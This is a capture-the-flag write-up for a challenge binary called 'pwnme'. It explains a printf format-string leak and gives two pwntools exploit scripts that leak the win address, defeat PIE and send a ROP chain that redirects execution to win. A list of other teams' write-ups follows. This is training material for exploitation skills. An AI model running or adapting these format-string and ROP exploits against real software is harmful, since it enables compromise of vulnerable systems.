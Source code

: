 So, we change the value of `buffer` and it's the first argument of `printf`. The `printf` function use the first argument to know the number of argument it should use, so i pass `%p%p%p%p%p%p%p%p %p ` (or `%9$p` to print only the address on the last element in the stack (the *win* address)) to get the pointer of the last element on the stack (first 8 arguments come from registers in 64 bits).

```python
from pwn import *

context.binary = elf = ELF("/media/kali/Downloads/pwnme")
c = elf.process()
# gdb.attach(c)
# c = remote("0.cloud.chals.io", 22287)
c.sendline(b'%p%p%p%p%p%p%p%p %p ')
c.recvuntil(b'?')
c.recvuntil(b' ')
elf.address = int(c.recvuntil(b' ').strip().decode(), 16) - elf.sym['win']
rop = ROP(elf)

c.sendline(b"a" * 40 + p64(rop.find_gadget(['pop rdi', 'ret']).address) + p64(0xdeadbeef) + p64(rop.find_gadget(['ret']).address) + p64((elf.sym['win'])))
c.interactive()
```

```python
from pwn import *

context.binary = elf = ELF("/media/kali/Downloads/pwnme")
c = elf.process()
# gdb.attach(c)
# c = remote("0.cloud.chals.io", 22287)
c.recvuntil(b'?')
c.sendline(b'%9$p ')

elf.address = int(c.recvuntil(b' ').strip().decode(), 16) - elf.sym['win']
rop = ROP(elf)

c.sendline(b"a" * 40 + p64(rop.find_gadget(['pop rdi', 'ret']).address) + p64(0xdeadbeef) + p64(rop.find_gadget(['ret']).address) + p64((elf.sym['win'])))
c.interactive()
```

or write-ups:
 - https://github.com/d4rkc0de-club/bluehensCTF-writeups/blob/main/pwn/pwn6/solve.py
 - https://github.com/AndyNovo/UDCTF22/blob/master/pwn/pwn6/exploit.py
 - https://gist.github.com/larsw/1e90ed42c674828f77e72303babb6d1b
 - https://github.com/12throckyou/ctf-writeups/blob/main/bluehens2022/pwn/Intro6/solve.py
 - https://github.com/d4rkc0de-club/bluehensCTF-writeups/blob/main/pwn/pwn6/solve.py
